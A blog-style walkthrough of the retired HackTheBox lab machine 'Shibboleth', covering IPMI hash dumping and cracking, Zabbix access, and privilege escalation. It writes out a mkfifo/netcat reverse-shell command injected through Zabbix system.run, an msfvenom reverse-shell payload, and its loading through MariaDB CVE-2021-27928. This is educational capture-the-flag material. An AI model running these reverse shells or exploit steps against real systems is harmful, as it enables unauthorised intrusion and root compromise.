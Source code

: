 ```yaml
---
title: "HackTheBox: \"Shibboleth\" Walkthrough"
date: 2022-04-22
tags: ['hackthebox', 'ctf']
slug: "hackthebox-shibboleth-walkthrough"
draft: false
---
```


# Introduction

This is my first walkthrough for a HackTheBox machine. It's not the first
machine I've done, though. But as Shibboleth is now "retired", it is allowed
to publish walkthroughs. I have decided not to publish any passwords,
because that would spoil the fun (and not add anything in terms of learning).
I'll rather focus on my chain of thought to go through this challenge.

# Foothold

The very first scan on every machine I do is a port scan using nmap. Depending on
the results, I continue to directory and/or vhost (subdomain) scanning.

First an nmap scan only reveals `80/tcp` as an open port. I have yet to encounter a machine
where this port is not open, as every machine has some kind of "landing page".
In this case, where a tcp port scan does not reveal anything interesting,
it's not a bad idea to also scan udp ports:

```plain
Discovered open port 623/udp on 10.10.11.124
```

Now that's something! A quick search reveals that `623/udp` is the default port for IPMI,
which is some kind of remote management interface.

Searching a bit further, we find common vulnerabilities for IPMI. One that
sounds especially promising is dumping the hashes. Conveniently, the metasploit framework
comes with a payload for this task.

```plain
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:25b6d5c382010...
```

When obtaining a hash, and it's an "insecure" one (that is, not bcrypt or similar),
I put it into hashcat right away. In this case, we need to pick the right
hash type. My hashcat version suggested three, and `-m 7300` is the correct one in this case.
I'm using the "rockyou" wordlist, which also yields a result in this case.

Now we have a username and password, but what next? I tried playing around
with IPMI a bit more - there seem to be ways to get a reverse shell, but those
were not working with this IPMI instance.

But, we are also not done with scanning! Let's scan for vhosts next:

```plain
Found: monitor.shibboleth.htb (Status: 200) [Size: 3686]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3686]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3686]
```

Again, this looks promising. All vhosts point to the same Zabbix instance.
Let's login with the credentials we obtained earlier!

# User

We now have adminisrator access to Zabbix. The installed Zabbix version 5.0.17
does not have any known vulnerability. But, Zabbix is a monitoring software
and as such for sure has the capability to execute commands on the machines
it is monitoring. Time to RTFM :scream:

Under *Configuration > Items > Item types > Zabbix agent* we will find:
> `system.run[command,<mode>]` - Run specified command on the host.

Exactly what we are looking for! Note that this seems to be an intentional
misconfiguration on this machine, because the docs also say:

> All `system.run[*]` items (remote commands, scripts) are disabled by default, even when no deny keys are specified


We now know that we can create an "Item" for the `shibboleth.htb` host in
the Zabbix UI.
I tried a lot of different reverse shell commands until I finally found one which
was working in this context:

```plain
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f,nowait]
```

Click on *Test > Get Value and Test*. We now have a reverse shell for user `zabbix`.


```plain
$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 Oct 16  2021 .
drwxr-xr-x 19 root     root     4096 Oct 16  2021 ..
drwxr-xr-x  3 ipmi-svc ipmi-svc 4096 Oct 16  2021 ipmi-svc

```

We also see the only entry in `/home` is for user `ipmi-svc`, so we now have to escalate to this
user. We *do* have a password, so try the straight-forward way:

```plain
$ su ipmi-svc
Password: <password>
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
```

Done - we can read the user flag!

# Root

Our next step is to gain root access. If there is no obvious way forward,
running LinPEAS usually gives us a hint: On this machine, there is a config
file `/etc/zabbix/zabbix_server.conf`, which is owned by root - and readable by the current user!
In this file, we will find credentials for a database server. Let's try them out:


```plain
$ mysql -u zabbix -p<password> zabbix

MariaDB [zabbix]> select version();
+----------------------------------+
| version()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

Looking up vulnerabilities for this MariaDB version leads to `CVE-2021-27928`.
We can use metasploit again, this time to build a payload:

```plain
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4242 -f elf-so -o payload.so
```

Connect to the MariaDB server, execute the payload:

```plain
mysql -u zabbix -p<password> -e 'SET GLOBAL wsrep_provider="/tmp/payload.so";'
```

# Conclusion and Learnings

I really liked the Shibboleth machine. Probably because it wasn't "the usual
web stuff". Most of the time I needed was to understand
how Zabbix works, and then to get the reverse shell working. This is also
a key learning for me: If you "know" you are on the right track, but it's
not working, try another way. This machine was the first time I used
(and needed) a "mkfifo reverse shell". Furthermore, I learned about `msfvenom`.